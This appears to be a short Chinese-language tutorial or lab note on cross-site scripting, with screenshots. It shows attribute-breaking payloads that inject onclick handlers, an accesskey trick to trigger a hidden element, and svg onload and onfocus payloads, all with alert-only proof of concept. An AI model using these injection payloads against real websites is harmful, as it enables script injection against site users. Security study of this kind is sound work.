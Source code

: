 ![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220519141929.png)

闭合双引号尝试用onclick事件弹窗

```
dog_cat.jpg "onclick="alert(/xss/)"&submit=下载
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220519142633.png)

但是，标签有hidden属性，便签被隐藏导致弹窗无法显示，可以通过设置快捷键的方式是弹窗成功弹出

```
pic=dog_cat.jpg" accesskey="x" onclick="alert(/xss/)&submit=下载
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220519145006.png)

各种浏览器的快捷键

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220519145134.png)

触发快捷键即可弹出xss窗口

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220519145220.png)



### svg标签

```<svg onload=alert(/xss/)>```

### 结点属性 

onfocus=alert(1337) autofucus=""
